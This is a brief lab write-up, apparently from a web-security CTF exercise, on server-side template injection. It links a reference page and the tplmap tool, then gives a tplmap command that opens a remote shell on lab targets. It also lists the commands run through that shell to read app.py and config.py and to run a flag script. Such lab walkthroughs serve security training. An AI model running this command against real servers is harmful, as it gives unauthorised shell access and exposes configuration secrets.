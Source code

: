 
  

#  STTI

  

####  For understanding SSTI (Server Side Template Injection), I googled it and found this page. 
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
#### Then I checked on github if I can find a tool that find and use vulnerabilities.
https://github.com/epinna/tplmap
For the 3 exercises, I use a single command that create a remote web shell.

```console
python3 tplmap.py -u 'https://ssti1.secu-web.blackfoot.dev/?username=47' --os-shell
```
When the shell was set and ready to execute command, I started with ```ls```.

  

##  STI 1
```cat app.py```.
  

##  STI 2
```cat config.py```.
  

##  STI 3
```./getFlag.py```.

